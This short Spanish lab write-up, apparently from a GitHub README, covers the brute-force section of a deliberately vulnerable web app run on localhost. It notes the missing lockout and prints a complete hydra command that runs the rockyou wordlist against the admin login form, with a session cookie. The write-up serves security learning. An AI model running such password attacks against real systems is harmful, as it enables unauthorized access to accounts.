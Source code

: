 # 1.1 Brute Force

Esta sección nos permite probar la vulnerabilidad de la fuerza bruta. 
Podemos observar que, si fallamos la contraseña, podremos probar cuanto queramos sin bloqueos ni restricciones.

![](/img/imagen1.JPG)
Imagen 1 - BruteForce
Luego procedemos a hacer a probarlo con fuerza bruta, con hydra, con el siguiente comando hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346" 

![](/img/imagen2.JPG)
Imagen 2 - BruteForceLow
